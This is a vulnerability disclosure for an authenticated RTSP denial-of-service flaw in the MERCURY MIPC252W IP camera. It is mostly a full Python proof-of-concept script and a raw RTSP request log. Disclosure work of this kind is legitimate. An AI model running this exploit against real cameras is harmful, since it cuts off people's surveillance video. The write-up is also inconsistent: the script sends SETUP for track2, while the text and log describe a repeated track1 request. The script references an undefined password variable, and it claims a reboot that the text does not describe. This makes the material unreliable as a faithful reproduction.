


# Information

**Vendor of the products:**  MERCURY

**Vendor's website:**  [https://www.mercurycom.com.cn/](https://www.mercurycom.com.cn/)

**Reported by:**  YanKang

**Affected products:** MIPC252W

**Affected firmware version:** 1.0.5 Build 230306 Rel.79931n

**Firmware download address:** https://service.mercurycom.com.cn/download-2777.html


# Overview

A protocol state handling flaw in the RTSP service of the MERCURY IP camera allows an authenticated attacker to trigger session termination by repeatedly sending `SETUP` requests for the same media track within a single RTSP session. This causes the server to reset the RTSP connection, leading to a denial-of-service condition.


# POC

After running the PoC, the script establishes an RTSP session with the target camera and then sends a repeated `SETUP` request for the same media track within the same session. This abnormal RTSP negotiation sequence causes the RTSP service to terminate the session, resulting in a denial-of-service condition.

```python
#!/usr/bin/env python3
"""
Tested device:
- Vendor: MERCURY
- Model: MIPC252W
- Firmware: 1.0.5 Build 230306 Rel.79931n

This code is for authorized security research purposes only.
"""

import socket
import time
import hashlib

CAMERA_IP = "TARGET_IP"   # replace with target device IP
RTSP_PORT = 554
RTSP_URI = f"rtsp://{CAMERA_IP}:{RTSP_PORT}/stream1"

USERNAME = "admin"
REALM = "MERCURY IP-Camera"

# Precomputed HA1 value (device/user specific, used only for PoC)
HA1 = hashlib.md5(f"{USERNAME}:{REALM}:{YOUR_PASSWORD}".encode()).hexdigest() #Calculations must be performed based on the manufacturer's authentication scheme and your own username and password.

def calculate_response(nonce, method, uri):
    """Calculate RTSP Digest authentication response"""
    ha2 = hashlib.md5(f"{method}:{uri}".encode()).hexdigest()
    return hashlib.md5(f"{HA1}:{nonce}:{ha2}".encode()).hexdigest()

# Create RTSP connection
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((CAMERA_IP, RTSP_PORT))

# 1. OPTIONS
options_req = (
    f"OPTIONS {RTSP_URI} RTSP/1.0\r\n"
    f"CSeq: 2\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n\r\n"
)
sock.send(options_req.encode())
time.sleep(1)
options_res = sock.recv(4096).decode(errors="ignore")
print("OPTIONS Response:\n", options_res)

# 2. DESCRIBE (unauthenticated)
describe1_req = (
    f"DESCRIBE {RTSP_URI} RTSP/1.0\r\n"
    f"CSeq: 3\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Accept: application/sdp\r\n\r\n"
)
sock.send(describe1_req.encode())
time.sleep(1)
describe_res = sock.recv(4096).decode(errors="ignore")
print("DESCRIBE_1 Response:\n", describe_res)

# Extract nonce
nonce = None
for line in describe_res.split("\r\n"):
    if "nonce=" in line:
        nonce = line.split('nonce="')[1].split('"')[0]
        break

if not nonce:
    print("[!] Failed to get nonce from response")
    sock.close()
    exit(1)

response = calculate_response(nonce, "DESCRIBE", RTSP_URI)

# 3. DESCRIBE (authenticated)
describe2_req = (
    f"DESCRIBE {RTSP_URI} RTSP/1.0\r\n"
    f"CSeq: 4\r\n"
    f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
    f"nonce=\"{nonce}\", uri=\"{RTSP_URI}\", response=\"{response}\"\r\n"
    f"Accept: application/sdp\r\n\r\n"
)
sock.send(describe2_req.encode())
time.sleep(1)
describe_res = sock.recv(4096).decode(errors="ignore")
print("DESCRIBE_2 Response:\n", describe_res)

# 4. SETUP track1 (normal)
setup1_req = (
    f"SETUP {RTSP_URI}/track1 RTSP/1.0\r\n"
    f"CSeq: 5\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
    f"nonce=\"{nonce}\", uri=\"{RTSP_URI}\", response=\"\"\r\n"
    f"Transport: RTP/AVP/TCP;unicast;interleaved=0-1\r\n\r\n"
)
sock.send(setup1_req.encode())
time.sleep(1)
setup_res = sock.recv(4096).decode(errors="ignore")
print("SETUP_1 Response:\n", setup_res)

# Extract Session ID
session_id = None
for line in setup_res.split("\r\n"):
    if line.startswith("Session:"):
        session_id = line.split(":")[1].split(";")[0].strip()
        break

if not session_id:
    print("[!] Failed to get session ID")
    sock.close()
    exit(1)

# 5. SETUP track2 
setup2_req = (
    f"SETUP {RTSP_URI}/track2 RTSP/1.0\r\n"
    f"CSeq: 6\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
    f"nonce=\"{nonce}\", uri=\"{RTSP_URI}\", response=\"\"\r\n"
    f"Transport: RTP/AVP/TCP;unicast;interleaved=2-3\r\n"
    f"Session: {session_id}\r\n\r\n"
)
sock.send(setup2_req.encode())
time.sleep(1)
setup_res = sock.recv(4096).decode(errors="ignore")
print("SETUP_2 Response:\n", setup_res)

# 6. PLAY
play_req = (
    f"PLAY {RTSP_URI}/ RTSP/1.0\r\n"
    f"CSeq: 7\r\n"
    f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
    f"nonce=\"{nonce}\", uri=\"{RTSP_URI}/\", response=\"\"\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Session: {session_id}\r\n"
    f"Range: npt=0.000-\r\n\r\n"
)
sock.send(play_req.encode())
time.sleep(1)

# 7. TEARDOWN
teardown_req = (
    f"TEARDOWN {RTSP_URI}/ RTSP/1.0\r\n"
    f"CSeq: 8\r\n"
    f"Authorization: Digest username=\"{USERNAME}\", realm=\"{REALM}\", "
    f"nonce=\"{nonce}\", uri=\"{RTSP_URI}/\", response=\"\"\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Session: {session_id}\r\n\r\n"
)
sock.send(teardown_req.encode())
time.sleep(1)

print("[*] PoC finished. Target device may reboot shortly.")
sock.close()

```

Below is an example of a complete RTSP request packet from our verification process.

```
OPTIONS rtsp://192.168.0.149:554/stream1 RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)

DESCRIBE rtsp://192.168.0.149:554/stream1 RTSP/1.0
CSeq: 3
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Accept: application/sdp

DESCRIBE rtsp://192.168.0.149:554/stream1 RTSP/1.0
CSeq: 4
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="14ec1bbf397af99e1da88fbd2deb3d54", uri="rtsp://192.168.0.149:554/stream1", response="178011fa106a74cb806124d26be09dd1"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Accept: application/sdp

SETUP rtsp://192.168.0.149:554/stream1/track1 RTSP/1.0
CSeq: 5
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="14ec1bbf397af99e1da88fbd2deb3d54", uri="rtsp://192.168.0.149:554/stream1/", response="0fa7ea9e90914567ab1da5f93e4baa66"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport: RTP/AVP/TCP;unicast;interleaved=0-1

SETUP rtsp://192.168.0.149:554/stream1/track1 RTSP/1.0            #重复对同一 track1 发送 SETUP
CSeq: 6
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="14ec1bbf397af99e1da88fbd2deb3d54", uri="rtsp://192.168.0.149:554/stream1/", response="0fa7ea9e90914567ab1da5f93e4baa66"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Transport: RTP/AVP/TCP;unicast;interleaved=2-3
Session: 5579378E

PLAY rtsp://192.168.0.149:554/stream1/ RTSP/1.0
CSeq: 7
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="14ec1bbf397af99e1da88fbd2deb3d54", uri="rtsp://192.168.0.149:554/stream1/", response="1f7c41e542b5ac60173b74c137d656db"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Session: 5579378E
Range: npt=0.000-

TEARDOWN rtsp://192.168.0.149:554/stream1/ RTSP/1.0
CSeq: 8
Authorization: Digest username="admin", realm="MERCURY IP-Camera", nonce="14ec1bbf397af99e1da88fbd2deb3d54", uri="rtsp://192.168.0.149:554/stream1/", response="0e7458aa7ee9f65fff386d8c469ea73b"
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Session: 5579378E
```


# Attack Demo

The vulnerability can be triggered by sending an abnormal RTSP request sequence. After establishing a legitimate RTSP session with the device and completing normal media track negotiation, an attacker sends a repeated `SETUP` request for the same media track within the same session instead of negotiating the next track. When processing this unexpected request sequence, the RTSP service enters an inconsistent protocol state and actively terminates the session, causing the RTSP connection to be reset and resulting in a denial-of-service condition.





As the target device firmware is closed-source and does not expose debugging symbols or interfaces, source-level state analysis is not available. To demonstrate the reproducibility and real-world impact of the vulnerability, a complete demonstration video is provided showing how the crafted RTSP request sequence repeatedly forces session termination.

A complete proof-of-concept script and a short demonstration video are provided in this repository to illustrate the reliable reproduction of the issue.

https://github.com/izxnfirh8148/CVE_REQUESTS_references/releases/tag/MERCURY_MIPC252W_2th


# Supplement

This vulnerability allows an authenticated attacker to trigger a denial-of-service (DoS) condition within a valid RTSP session by sending an abnormal `SETUP` request sequence. Repeated `SETUP` requests for the same media track cause the RTSP service to enter an inconsistent protocol state and actively terminate the session, resulting in RTSP connection reset and denial of service.

Successful exploitation interrupts the camera’s RTSP video stream. An attacker can repeatedly trigger this behavior to continuously disrupt RTSP sessions, thereby reducing the availability and stability of the device’s video service in real-world deployment scenarios.

The issue has been assigned a **CVSS v3.1** base score of **4.4(Medium)** with the vector **CVSS:3.1/AV:L/AC:L/PR:H/UI:N/S:U/C:N/I:N/A:H**

